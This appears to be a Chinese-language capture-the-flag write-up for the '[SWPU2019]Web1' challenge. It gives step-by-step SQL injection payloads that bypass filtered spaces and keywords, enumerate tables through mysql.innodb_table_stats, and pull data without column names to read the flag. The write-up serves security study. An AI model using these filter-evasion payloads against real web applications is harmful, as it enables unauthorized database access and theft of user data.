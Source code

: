 ```yaml
---
title: '[SWPU2019]Web1'
date: 2024-10-04 22:19:45
tags: sql注入
categories: 刷题笔记
---
```


## [SWPU2019]Web1

**mysql.innodb_table_stats表下分别是database_name,table_name,index_name。你用了这个表，相对的也要换成database_name**

打开页面，注册登录发布广告

![image-20240508194235347](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405081942389.png)

这里疑似sql注入，我们传入1‘，再提交

在首界面的广告详情中发现一条报错语句，说明是sql注入

![image-20240508194322318](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405081943358.png)

经过测试发现空格、or、#、--+、and等进行了过滤，我们需要闭合単引号，使用

```
,'3
```

就能闭合单引号了，而空格可以用/**/代替

开始sql注入

**爆列**

由于order被过滤了，我们使用group来爆列数

我们输入

```mysql
1‘/**/group/**/by/**/22,'3
```

回显正常

而输入

```mysql
1‘/**/group/**/by/**/23,'3
```

就会报错

![image-20240508195241605](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405081952638.png)

可知，一共有22列

**查看回显位**

输入

```
1'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1

1'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
22
```

发现回显在2号位和3号位上

![image-20240508203419376](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405082034425.png)

**爆表名**

由于information_schema被过滤了，我们使用innodb_index_stats

```
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22


```

**注意： 这个地方一定要在前面可显示的位置2，3用select查出表名，因为union select查的是当前数据库中的内容，且有22个字段，如果将from/\**/mysql.innodb_table_stats写在数字后面就查不出。**

爆出表名ads，users

![image-20240508203817718](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405082038774.png)

**爆字段**

这时就要无列名注入了

因为没有mysql.innodb_column_stats这个方法，查不了列名

大概原理就是没有列名，那就给它取名，然后按别名正常继续注入

```
//-1'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2,3/**/as/**/b/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

```

就能得到flag了

![image-20240508204849777](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405082048808.png)

------

